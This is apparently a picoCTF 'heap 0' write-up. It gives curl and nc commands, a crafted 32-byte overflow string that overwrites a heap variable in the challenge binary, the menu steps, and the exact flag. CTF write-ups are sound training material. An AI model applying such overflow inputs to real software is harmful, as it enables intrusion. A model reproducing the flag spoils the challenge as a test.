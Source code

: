 # heap 0

## Description

Are overflows just a stack concern?
Download the binary [here](https://artifacts.picoctf.net/c_tethys/28/chall).
Download the source [here](https://artifacts.picoctf.net/c_tethys/28/chall.c).
Additional details will be available after launching your challenge instance.

> Connect with the challenge instance here:
> nc tethys.picoctf.net 63426

## Solution

```sh
curl -LO https://artifacts.picoctf.net/c_tethys/28/chall
curl -LO https://artifacts.picoctf.net/c_tethys/28/chall.c
# Generate a string 32 bytes in length. A single character is a single byte, for reference.
echo "pic$(printf 'o%.0s' {1..29})"
nc tethys.picoctf.net 63426
```

Use `2`, provide the string, and then `4`. Flag -> `picoCTF{my_first_heap_overflow_76775c7c}`.

## Writeup

If you read the code, you will find the `win` method which gets you the flag. In this method, notice the below condition,

```c
void check_win()
{
    if (strcmp(safe_var, "bico") != 0)
    {
        // Print flag
    }
    else
    {
        // ...
    }
}

```

When does `strcmp` return a value not equal to zero? [We can find this documentation](https://pubs.opengroup.org/onlinepubs/9799919799/functions/strcmp.html).
